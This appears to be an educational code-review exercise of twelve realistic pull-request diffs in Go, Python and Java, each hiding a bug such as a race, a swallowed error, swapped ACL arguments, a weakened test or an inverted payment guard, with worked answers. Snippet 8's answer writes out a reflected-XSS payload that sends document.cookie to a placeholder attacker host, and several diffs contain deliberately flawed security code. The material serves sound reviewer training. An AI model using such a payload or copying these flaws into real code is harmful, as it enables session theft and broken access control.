

# Code Reviews — Find the Bug

> 12 realistic PR diffs that would each earn a rubber-stamp "LGTM" at a glance. Every one hides a real defect a good reviewer must catch. The skill being trained here is not "spot the bug in isolated code" — it's **reviewing a diff**: reading the change in the context of the code around it, running it mentally against the old behavior, and checking whether the tests still prove what they claim to.

---

## Table of Contents

1. [Snippet 1 — The "cleanup" off-by-one (Go)](#snippet-1--the-cleanup-off-by-one-go)
2. [Snippet 2 — Changed default breaks a silent caller (Python)](#snippet-2--changed-default-breaks-a-silent-caller-python)
3. [Snippet 3 — The removed err check (Go)](#snippet-3--the-removed-err-check-go)
4. [Snippet 4 — Swapped arguments in a "harmless" refactor (Java)](#snippet-4--swapped-arguments-in-a-harmless-refactor-java)
5. [Snippet 5 — The test that was weakened to go green (Python)](#snippet-5--the-test-that-was-weakened-to-go-green-python)
6. [Snippet 6 — The lock that moved one line (Go)](#snippet-6--the-lock-that-moved-one-line-go)
7. [Snippet 7 — The error now swallowed (Java)](#snippet-7--the-error-now-swallowed-java)
8. [Snippet 8 — Unescaped input slipped into a big diff (Python)](#snippet-8--unescaped-input-slipped-into-a-big-diff-python)
9. [Snippet 9 — The resource no longer closed (Go)](#snippet-9--the-resource-no-longer-closed-go)
10. [Snippet 10 — The flipped boolean condition (Java)](#snippet-10--the-flipped-boolean-condition-java)
11. [Snippet 11 — The narrowed scope that broke a guarantee (Python)](#snippet-11--the-narrowed-scope-that-broke-a-guarantee-python)
12. [Snippet 12 — The "equivalent" early return that isn't (Go)](#snippet-12--the-equivalent-early-return-that-isnt-go)
13. [Scorecard](#scorecard)
14. [Related Topics](#related-topics)

---

## How to Use

Read each snippet **as a reviewer reads a PR** — not as a puzzle. The diff is presented in unified-diff form (`-` removed, `+` added, unchanged lines for context). For each one:

1. **Read it in context.** The bug is almost never in the added line by itself. It's in how the added line interacts with the line above it, a caller you can't see, or an invariant the old code held.
2. **Run it mentally against the old behavior.** A diff is a *delta*. Ask: "What did the old code guarantee that the new code no longer does?" Defects hide in lost guarantees, not new statements.
3. **Check the tests.** If a test changed in the same PR, treat it as a suspect, not as evidence. A test edited to make a build pass is the single highest-signal red flag in any review.
4. Then open `<details>` and compare your call against the answer — including the **review comment you would write**, because catching the bug is only half the job; communicating it actionably is the other half.

The review mindset, as a state machine:



Difficulty scale: 🟢 a careful reviewer catches it · 🟡 needs context the diff doesn't show · 🔴 requires running it mentally or knowing the domain.

---

### Snippet 1 — The "cleanup" off-by-one (Go) 🟢

A reviewer sees a loop being "simplified." The PR description says: *"Cleanup: use a cleaner loop bound, no behavior change."*

```diff
 // chunk splits data into windows of size n for batch upload.
 func chunk(data []byte, n int) [][]byte {
     var out [][]byte
-    for i := 0; i < len(data); i += n {
-        end := i + n
-        if end > len(data) {
-            end = len(data)
-        }
-        out = append(out, data[i:end])
-    }
+    for i := 0; i <= len(data); i += n {
+        end := i + n
+        if end > len(data) {
+            end = len(data)
+        }
+        out = append(out, data[i:end])
+    }
     return out
 }
```

**What should the reviewer flag?**

<details><summary>Answer</summary>

**The bug:** the loop bound changed from `i < len(data)` to `i <= len(data)`. When `len(data)` is an exact multiple of `n`, the loop runs one extra iteration with `i == len(data)`. That iteration appends `data[len(data):len(data)]` — an **empty slice** — as a trailing chunk. Downstream, an empty batch upload may be a no-op, or it may be a malformed request, or it may double-count. Worst case: `data` is empty, the old loop produced `[]` (zero chunks), the new loop produces `[[]byte{}]` (one empty chunk).

**Why it's easy to miss in review:** the diff is symmetric — five identical lines, one character changed (`<` → `<=`). The eye pattern-matches "loop bound tweaked, probably fine," and the PR title says "no behavior change." The reviewer never asks "what input makes the new bound differ from the old?" The answer is the boundary case (`len(data) % n == 0`), which is exactly the case humans skip when reading.

**Review comment to write:**

> The bound change `< → <=` adds one iteration when `len(data)` is a multiple of `n`, appending an empty trailing chunk (and one empty chunk even when `data` is empty). Was that intended? If not, revert to `<`. Either way, please add a table test covering `len(data)==0`, `len(data)==n`, and `len(data)==2n` — those three pin the boundary behavior.

</details>

---

### Snippet 2 — Changed default breaks a silent caller (Python) 🟡

The PR: *"Make `retry` safer by defaulting `raise_on_exhaust=True` so failures surface instead of returning None."* The function and its one obvious caller are in the diff.

```diff
-def retry(fn, attempts=3, raise_on_exhaust=False):
+def retry(fn, attempts=3, raise_on_exhaust=True):
     last_exc = None
     for _ in range(attempts):
         try:
             return fn()
         except Exception as exc:
             last_exc = exc
     if raise_on_exhaust:
         raise last_exc
     return None


 # caller shown in the diff (looks fine — it handles the exception):
 def fetch_config():
     return retry(lambda: http_get("/config"), attempts=5)
```

**What should the reviewer flag?**

<details><summary>Answer</summary>

**The bug:** the bug is not in the diff — it's in the callers **not shown** in the diff. Flipping a default is a behavior change for *every* existing call site that relied on the old default. Somewhere in the codebase there is almost certainly code like:

```python
result = retry(lambda: optional_warmup(), attempts=2)
if result is None:
    log.info("warmup skipped, continuing")  # this branch now never runs
```

That caller deliberately used the old `raise_on_exhaust=False` behavior to treat exhaustion as "None, no big deal." After the default flip, exhaustion raises instead, and the previously-graceful path now crashes the request.

**Why it's easy to miss in review:** the diff is self-consistent and the *visible* caller (`fetch_config`) is genuinely fine with the new behavior. The reviewer reads the change, reads the one caller in front of them, and approves. The defect lives in the call sites the diff doesn't render. Changing a default value is a **wide-radius change** disguised as a one-line edit.

**Review comment to write:**

> Flipping the default of `raise_on_exhaust` changes behavior for every existing caller that omitted the argument. Before we merge, can you run a search for `retry(` across the repo and confirm none of them rely on the old `None`-on-exhaust contract? If any do, either pass `raise_on_exhaust=False` explicitly at those sites in this PR, or make the new behavior opt-in (keep the default `False`, flip callers individually).

</details>

---

### Snippet 3 — The removed err check (Go) 🟢

The PR: *"Simplify config loading — collapse error handling."*

```diff
 func loadSettings(path string) (*Settings, error) {
-    raw, err := os.ReadFile(path)
-    if err != nil {
-        return nil, fmt.Errorf("read config: %w", err)
-    }
-    var s Settings
-    if err := json.Unmarshal(raw, &s); err != nil {
-        return nil, fmt.Errorf("parse config: %w", err)
-    }
-    return &s, nil
+    raw, _ := os.ReadFile(path)
+    var s Settings
+    json.Unmarshal(raw, &s)
+    return &s, nil
 }
```

**What should the reviewer flag?**

<details><summary>Answer</summary>

**The bug:** both error checks were deleted. If `path` doesn't exist, `os.ReadFile` returns `nil, err`; the error is discarded (`_`), and `raw` is `nil`. `json.Unmarshal(nil, &s)` returns an error (also discarded), leaving `s` as the **zero value**. The function returns a `*Settings` full of zeros and a `nil` error — so every caller believes config loaded successfully. The system silently runs on default-zero settings (empty connection strings, zero timeouts, disabled feature flags) instead of failing loudly at startup.

**Why it's easy to miss in review:** the diff *looks like* a legitimate simplification — fewer lines, less boilerplate, and "collapse error handling" is a phrase reviewers see in real cleanup PRs. The function still returns `(*Settings, error)`, so the signature lies: it promises it can fail, but it never reports failure anymore. A reviewer skimming for "does this compile and look tidy" approves it. The `_` discard is the tell, and it's the easiest token in Go to glide past.

**Review comment to write:**

> This drops both error returns. A missing/corrupt config file now yields a zero-value `Settings` and a `nil` error, so callers think load succeeded and the app boots on empty defaults. The signature still returns `error` — let's keep the checks and propagate. If the goal was fewer lines, we can shorten with `errors.Join`-style wrapping, but we can't drop the checks.

</details>

---

### Snippet 4 — Swapped arguments in a "harmless" refactor (Java) 🔴

The PR: *"Extract permission check into a helper so we can reuse it in the new admin endpoint."*

```diff
 public class AccessControl {
-    public boolean canAccess(User user, Resource resource) {
-        if (resource.getOwnerId().equals(user.getId())) return true;
-        return acl.isGranted(resource.getId(), user.getId());
-    }
+    public boolean canAccess(User user, Resource resource) {
+        if (resource.getOwnerId().equals(user.getId())) return true;
+        return checkAcl(user, resource);
+    }
+
+    private boolean checkAcl(User user, Resource resource) {
+        // acl.isGranted(resourceId, userId)
+        return acl.isGranted(user.getId(), resource.getId());
+    }
 }
```

**What should the reviewer flag?**

<details><summary>Answer</summary>

**The bug:** in the original, `acl.isGranted(resource.getId(), user.getId())` — `(resourceId, userId)`. The extracted helper calls `acl.isGranted(user.getId(), resource.getId())` — **arguments swapped**. The reviewer even left themselves a hint comment (`// acl.isGranted(resourceId, userId)`) that contradicts the code right below it. Now `isGranted` is asked "is resource `R` granted access to user `U`?" — a nonsense question whose answer is effectively random. Depending on the ACL store, this either denies everyone (lockout) or, far worse, matches unrelated rows and **grants access it shouldn't**. Both `getId()` calls likely return `String`/`UUID`, so it compiles cleanly.

**Why it's easy to miss in review:** "extract a private helper, no logic change" is the most trusted refactor category there is — reviewers approve these almost reflexively. The swap is invisible because both arguments have the same type, the method name (`isGranted`) doesn't encode parameter order, and the diff *adds* a method rather than changing a visible line, so the reviewer compares the old call to nothing. The contradicting comment is the only clue, and comments are the first thing tired reviewers stop reading.

**Review comment to write:**

> The extracted `checkAcl` swaps the arguments: original was `isGranted(resourceId, userId)`, this passes `isGranted(userId, resourceId)` — and your own comment above says the former. With both being IDs the compiler can't catch it, and the failure mode is a security one (wrong grants). Please fix the order and add a test where user U owns no grant on resource R but *does* on resource S — that asserts we're keying on the right argument.

</details>

---

### Snippet 5 — The test that was weakened to go green (Python) 🔴

The PR touches `discount.py` and `test_discount.py`. The CI was red; this PR makes it green.

```diff
--- a/discount.py
+++ b/discount.py
 def apply_discount(price, pct):
-    if not (0 <= pct <= 100):
-        raise ValueError("pct must be between 0 and 100")
-    return round(price * (1 - pct / 100), 2)
+    return round(price * (1 - pct / 100), 2)

--- a/test_discount.py
+++ b/test_discount.py
 def test_apply_discount_basic():
     assert apply_discount(100, 20) == 80.0

-def test_apply_discount_rejects_out_of_range():
-    with pytest.raises(ValueError):
-        apply_discount(100, 150)
+def test_apply_discount_handles_large_pct():
+    # 150% off → negative, that's acceptable for now
+    assert apply_discount(100, 150) == -50.0
```

**What should the reviewer flag?**

<details><summary>Answer</summary>

**The bug:** the validation was deleted from the production code, and the test that *proved* the validation existed was rewritten to assert the **new, broken** behavior. `apply_discount(100, 150)` now returns `-50.0` — the store would *pay* the customer $50 to take a $100 item. The test no longer guards anything; it was reverse-engineered from the buggy output to make the suite pass. The comment ("acceptable for now") is a rationalization smuggled in to make the weakening look deliberate.

**Why it's easy to miss in review:** the suite is green, and green tests create a false sense of safety — reviewers trust CI. The diff *adds* a test (`test_apply_discount_handles_large_pct`) so the test count doesn't drop, which defeats a naive "did coverage decrease?" check. The two files are in one PR, so the deleted guard and the rewritten test are physically separated in the diff; a reviewer reading file-by-file sees "removed a check" then later "changed a test" and doesn't connect them. **The cardinal rule: when production code and its test change in the same PR, read the test diff first and ask whether it was strengthened or weakened.** Here it was weakened to match a regression.

**Review comment to write:**

> This removes the `pct` range validation and rewrites the test to assert the broken result (`apply_discount(100, 150) == -50.0` means we pay the customer). The renamed test no longer protects the invariant it used to. What was the original CI failure? If a real caller is passing `pct > 100`, fix the caller — don't delete the guard. Please restore the `ValueError` and the original test; if there's a genuine "negative discount" use case, that needs its own explicit function and its own ticket.

</details>

---

### Snippet 6 — The lock that moved one line (Go) 🔴

The PR: *"Reduce lock contention in the counter hot path — release the mutex sooner."*

```diff
 func (c *Counter) IncrementAndSnapshot() map[string]int {
     c.mu.Lock()
-    c.counts[c.key]++
-    snapshot := make(map[string]int, len(c.counts))
-    for k, v := range c.counts {
-        snapshot[k] = v
-    }
-    c.mu.Unlock()
+    c.counts[c.key]++
+    c.mu.Unlock()
+    snapshot := make(map[string]int, len(c.counts))
+    for k, v := range c.counts {
+        snapshot[k] = v
+    }
     return snapshot
 }
```

**What should the reviewer flag?**

<details><summary>Answer</summary>

**The bug:** the `Unlock()` moved *up*, so the snapshot loop now reads `c.counts` **without holding the lock**. If another goroutine calls `IncrementAndSnapshot` (or any writer) concurrently, the `range` loop reads a map that's being written — a data race, and in Go a concurrent map read/write is not merely a torn value, it's a **fatal runtime panic** (`concurrent map read and map write`) that crashes the whole process. The "optimization" traded a correct critical section for an intermittent production crash that won't reproduce under light load or in single-threaded tests.

**Why it's easy to miss in review:** the change reads exactly like the legitimate optimization it claims to be — "hold the lock for less time" is real, valid advice, so the framing disarms the reviewer. The moved `Unlock()` is one line relocated; visually the diff looks like a reorder, not a correctness change. The reviewer has to mentally model *concurrent* execution — the hardest thing to do while reading sequential code — and notice that the loop that must be inside the lock is now outside it.

**Review comment to write:**

> Moving `Unlock()` above the snapshot loop means we now `range` over `c.counts` without the lock held. A concurrent writer makes this a data race, and concurrent map read+write is a hard panic in Go, not a soft error. The map iteration *must* stay inside the critical section. If contention is the real concern, the right fix is to copy under the lock (as before) and do any expensive post-processing of the *copy* outside — but the read of the shared map can't leave the lock. Please run the test suite with `-race` and add a parallel test that calls this from N goroutines.

</details>

---

### Snippet 7 — The error now swallowed (Java) 🟡

The PR: *"Improve resilience — don't let a single failed notification block the batch."*

```diff
 public void notifyAll(List<User> users, String message) {
     for (User user : users) {
-        notifier.send(user, message);
+        try {
+            notifier.send(user, message);
+        } catch (Exception e) {
+            // continue with the rest
+        }
     }
 }
```

**What should the reviewer flag?**

<details><summary>Answer</summary>

**The bug:** the intent is reasonable — one bad recipient shouldn't abort the whole batch — but the implementation **swallows the exception entirely**: no logging, no metric, no collection of failures. When notifications silently fail, nobody finds out until a customer complains they never got the alert. The `catch (Exception e)` is also too broad: it eats `InterruptedException` (breaking thread cancellation) and unchecked programming errors like `NullPointerException` that indicate a real bug, not a transient delivery failure. The method also returns `void`, so the caller has no way to know *anyone* failed.

**Why it's easy to miss in review:** "make it resilient by catching per-item" is a genuinely good pattern, and the diff implements the *shape* of it correctly. The reviewer sees a try/catch wrapping a loop body and mentally checks the box "handles partial failure — good." The defect is the *empty* catch block — the absence of `log.error(...)` — which is a thing that *isn't there*, and reviewers are far worse at noticing missing lines than wrong ones.

**Review comment to write:**

> Good instinct to isolate per-user failures, but this catch is silent: a failed `send` vanishes with no log, no metric, and no signal to the caller (method returns `void`). That converts "some notifications failed" into an invisible incident. Please at minimum `log.warn("notify failed for {}", user.getId(), e)` and increment a failure counter; narrow the catch to the delivery exception type (re-throw / don't catch `InterruptedException`); and consider returning a result summarizing failures so callers can react.

</details>

---

### Snippet 8 — Unescaped input slipped into a big diff (Python) 🔴

This snippet is from a 600-line PR that adds an admin search page. Amid template wiring, layout, and pagination, this helper appears:

```diff
+def render_results_header(query: str, count: int) -> str:
+    return (
+        '<div class="results-header">'
+        f'<h2>Results for "{query}"</h2>'
+        f'<span class="count">{count} matches</span>'
+        '</div>'
+    )
```

…and the caller, 200 lines later in the same PR:

```diff
+    raw_query = request.args.get("q", "")
+    results = search_index(raw_query)
+    header_html = render_results_header(raw_query, len(results))
+    return render_template_string(PAGE_TEMPLATE, header=Markup(header_html), body=...)
```

**What should the reviewer flag?**

<details><summary>Answer</summary>

**The bug:** `query` comes straight from `request.args.get("q")` (attacker-controlled), is interpolated raw into HTML via an f-string, and then the result is wrapped in `Markup(...)`, which tells the template engine "this is trusted, do not escape it." A query of `"><script>document.location='https://evil/?c='+document.cookie</script>` is rendered verbatim into the page — a **reflected XSS**. The autoescaping the framework normally provides is explicitly defeated by the `Markup()` wrapper around hand-built HTML.

**Why it's easy to miss in review:** this is the classic "big PR hides the one dangerous line" scenario. The reviewer is fatigued from 600 lines of mostly-benign template and pagination code; the helper looks like trivial string formatting; and the dangerous `Markup()` call is 200 lines away from the unescaped interpolation, so the two halves of the vulnerability never sit on the same screen. Mega-PRs don't just slow review down — they actively *hide* security regressions by burying them in volume. (See [tasks.md](tasks.md) for splitting strategies and [../../anti-patterns/README.md](../../anti-patterns/README.md) on mega-PRs.)

**Review comment to write:**

> `render_results_header` interpolates `query` (raw `request.args["q"]`) directly into HTML, and the caller wraps the output in `Markup()` so the template engine won't escape it — that's a reflected XSS. Please don't build HTML by hand here: pass `query` and `count` into a real template and let autoescaping handle it, or `markupsafe.escape(query)` at minimum, and drop the `Markup()` wrapper. Also — this PR is 600 lines; can we split the search-index work from the rendering so security-sensitive code reviews on its own?

</details>

---

### Snippet 9 — The resource no longer closed (Go) 🟡

The PR: *"Refactor: pull the row-reading into a helper for reuse."*

```diff
 func activeUserIDs(db *sql.DB) ([]int, error) {
-    rows, err := db.Query("SELECT id FROM users WHERE active = true")
-    if err != nil {
-        return nil, err
-    }
-    defer rows.Close()
-    var ids []int
-    for rows.Next() {
-        var id int
-        if err := rows.Scan(&id); err != nil {
-            return nil, err
-        }
-        ids = append(ids, id)
-    }
-    return ids, rows.Err()
+    rows, err := db.Query("SELECT id FROM users WHERE active = true")
+    if err != nil {
+        return nil, err
+    }
+    return scanIDs(rows)
 }
+
+func scanIDs(rows *sql.Rows) ([]int, error) {
+    var ids []int
+    for rows.Next() {
+        var id int
+        if err := rows.Scan(&id); err != nil {
+            return nil, err
+        }
+        ids = append(ids, id)
+    }
+    return ids, rows.Err()
+}
```

**What should the reviewer flag?**

<details><summary>Answer</summary>

**The bug:** the original had `defer rows.Close()`. When the row-reading moved into `scanIDs`, the `defer rows.Close()` was **left behind and then dropped** — neither function closes the rows. `scanIDs` receives `*sql.Rows` but doesn't own/close it, and `activeUserIDs` no longer closes it either. Each call leaks a connection from the pool. Under load the pool exhausts, and the service hangs waiting for a free connection — a slow, miserable outage that looks like "the database got slow."

**Why it's easy to miss in review:** `defer rows.Close()` is one line, and in the diff it appears only as a *deleted* red line with no corresponding green line — exactly the pattern the eye treats as "moved, fine." But it wasn't moved anywhere; it evaporated in the refactor. Resource-lifetime bugs are invisible in functional tests (a few calls never exhaust the pool) and only surface under sustained production traffic, long after the LGTM.

**Review comment to write:**

> The refactor drops `defer rows.Close()` — it was in the old `activeUserIDs` and didn't make it into `scanIDs`, so nothing closes the rows now. That leaks a pooled connection per call and will exhaust the pool under load. Cleanest fix: keep ownership where the rows are created — `defer rows.Close()` in `activeUserIDs` right after the error check, before calling `scanIDs(rows)`. A `defer`-leak linter (e.g. `sqlclosecheck`) in CI would catch this class going forward.

</details>

---

### Snippet 10 — The flipped boolean condition (Java) 🟢

The PR: *"Readability: invert the guard and use a positive variable name."*

```diff
 public void processPayment(Payment payment) {
-    if (!payment.isAuthorized()) {
-        throw new IllegalStateException("payment not authorized");
-    }
-    gateway.capture(payment);
+    boolean unauthorized = payment.isAuthorized();
+    if (unauthorized) {
+        throw new IllegalStateException("payment not authorized");
+    }
+    gateway.capture(payment);
 }
```

**What should the reviewer flag?**

<details><summary>Answer</summary>

**The bug:** the variable is named `unauthorized` but assigned `payment.isAuthorized()` — the **negation was dropped**. The name says one thing, the value says the opposite. Now the guard `if (unauthorized)` throws when the payment *is* authorized and proceeds to `gateway.capture(payment)` when it is *not* — capturing money on unauthorized payments while rejecting the valid ones. The logic is exactly inverted, and the misleading variable name actively camouflages it: a reviewer reading `if (unauthorized) throw` nods along because the *name* makes the control flow read correctly in English.

**Why it's easy to miss in review:** "introduce an explanatory variable" is a textbook readability refactor, so the reviewer's guard is down. The mistake is the missing `!` in `boolean unauthorized = payment.isAuthorized()` — it should be `!payment.isAuthorized()`. A single dropped operator, hidden behind a variable name that lies about the value. The English-language plausibility of the final `if` statement is precisely what stops the reviewer from checking the assignment.

**Review comment to write:**

> The new variable is named `unauthorized` but assigned `payment.isAuthorized()` (missing the `!`). That inverts the guard: we now throw on authorized payments and `capture()` unauthorized ones. Should be `boolean unauthorized = !payment.isAuthorized();`. This one needs a test that asserts an *un*authorized payment throws and is never captured — that single test would have failed here and should live in the suite regardless.

</details>

---

### Snippet 11 — The narrowed scope that broke a guarantee (Python) 🟡

The PR: *"Performance: only re-index documents that changed since the last run instead of all of them."*

```diff
-def reindex(documents, index):
-    index.clear()
-    for doc in documents:
-        index.add(doc.id, doc.tokens())
+def reindex(documents, index, since):
+    for doc in documents:
+        if doc.updated_at > since:
+            index.add(doc.id, doc.tokens())
```

**What should the reviewer flag?**

<details><summary>Answer</summary>

**The bug:** two guarantees were lost in the optimization. First, the old code called `index.clear()` and rebuilt — so a **deleted** document disappeared from the index. The new code never clears and only *adds*, so deleted documents remain searchable forever (ghost results pointing at content that no longer exists). Second, `index.add` on a document that was already indexed: the old "clear then add" guaranteed exactly one entry per doc; incremental `add` without a prior delete may produce **duplicate or stale postings** for an updated document (old tokens still indexed alongside new ones), depending on whether `add` is an upsert or an append. The "only changed docs" optimization quietly changed the index from *rebuilt-from-truth* to *append-only-drift*.

**Why it's easy to miss in review:** the diff is shorter and the new code is obviously faster, so it reads as a clean win — and incremental indexing is a real, legitimate technique. The reviewer evaluates the added code (the `if doc.updated_at > since` filter) and judges it correct *for what it does*. The bug is in what was **removed**: the `index.clear()` line and the full-rebuild semantics it provided. The lost guarantee (deletions propagate, no stale postings) isn't expressed anywhere in the new code, so there's nothing to point at — you have to reconstruct the old contract from the deleted lines.

**Review comment to write:**

> Dropping `index.clear()` changes the contract from "index == current truth" to "append-only." Two problems: deleted documents are never removed (ghost search hits), and updating a doc adds new postings without removing the old ones (unless `index.add` is a true upsert — is it?). Incremental indexing is the right goal, but it needs explicit handling of deletes and re-adds: track removed IDs and call `index.remove(id)`, and confirm `add` replaces rather than appends. Please add tests for "delete a doc → it's no longer searchable" and "update a doc → old tokens gone."

</details>

---

### Snippet 12 — The "equivalent" early return that isn't (Go) 🔴

The PR: *"Tidy up: replace the nested if with an early return guard."*

```diff
 func applyCredit(account *Account, credit Money) error {
-    if account != nil {
-        if account.Status == Active {
-            account.Balance = account.Balance.Add(credit)
-            account.LastCreditAt = time.Now()
-        }
-    }
-    return audit.Record(account, credit)
+    if account == nil || account.Status != Active {
+        return nil
+    }
+    account.Balance = account.Balance.Add(credit)
+    account.LastCreditAt = time.Now()
+    return audit.Record(account, credit)
}
```

**What should the reviewer flag?**

<details><summary>Answer</summary>

**The bug:** the refactor *looks* like a faithful "flatten the nested if into a guard" — and the credit-application part is equivalent. But the early `return nil` also skips `audit.Record(...)`, which in the original ran **unconditionally** (outside both ifs). Before: even a nil-or-inactive account produced an audit record (an attempted-but-not-applied credit). After: those cases return early and write **no audit entry at all**. The system loses its record of rejected credit attempts — a compliance and debugging gap, and exactly the kind of "we have no log of what happened" that surfaces during an incident postmortem.

**Why it's easy to miss in review:** "convert nested ifs to early returns" is a near-mechanical refactor that reviewers approve on sight, and the *primary* logic (apply credit only when active) is genuinely preserved. The trap is the line that lived **after** the nested block: by hoisting the guard to the top with `return nil`, the refactor changed the audit call from "always runs" to "runs only on the happy path." The diff doesn't touch the `audit.Record` line at all, so the reviewer has no red/green marker drawing attention to the behavior change — the change is in *reachability*, not in any edited line.

**Review comment to write:**

> The early-return refactor is correct for the credit math, but it changes `audit.Record` from unconditional to happy-path-only: nil/inactive accounts used to get an audit entry and now get none. If we need to keep auditing rejected attempts (I think we do, for compliance), don't `return nil` early — guard only the mutation and let the audit call run for all paths, e.g. apply the credit inside the `if active` block and keep `audit.Record(account, credit)` as the final unconditional line. A test asserting "inactive account still produces an audit record" would lock this down.

</details>

---

## Scorecard

Tally one point per bug you'd have flagged **with a useful review comment** (catching it silently doesn't count — communicating it is the job).

| Score | Verdict |
|-------|---------|
| 11–12 | You review like a staff engineer. You read deltas as lost guarantees, you distrust weakened tests, and you model concurrency in your head. The team is safer because you read PRs. |
| 8–10  | Strong reviewer. Tighten up on the *invisible* bugs — missing lines (Snippets 3, 7, 9) and reachability changes (Snippet 12) where nothing edited looks wrong. |
| 5–7   | You catch wrong lines but miss lost guarantees and out-of-diff blast radius (Snippets 2, 11). Practice asking "what did the old code promise that this no longer does?" on every diff. |
| 0–4   | You're rubber-stamping. The fix is process, not talent: read the test diff first, search for callers of any changed signature/default, run boundary cases mentally, and never approve a PR you didn't read in context. |

**The meta-lesson across all twelve:** the dangerous bugs in review are rarely in the *added* code judged on its own. They live in (a) interaction with code the diff doesn't show — callers, concurrent goroutines, the line just outside an edited block; (b) **removed** guarantees that leave no green line to point at; and (c) tests changed in the same PR. A reviewer who reads only the green lines will approve every snippet here. A reviewer who reads the *delta in context* catches them all.

---

## Related Topics

- [README.md](../README.md) — the positive rules of effective code review this file inverts
- [junior.md](junior.md) — code-review fundamentals: what to look for, review etiquette, and how to write actionable comments
- [tasks.md](tasks.md) — practice drills: splitting mega-PRs, writing review comments, and running PRs through a review checklist
- [../../anti-patterns/README.md](../../anti-patterns/README.md) — rubber-stamp approval, mega-PRs, and other review anti-patterns
- [../../refactoring/README.md](../../refactoring/README.md) — many bugs here hide inside "harmless refactors"; this section covers behavior-preserving transformation done right
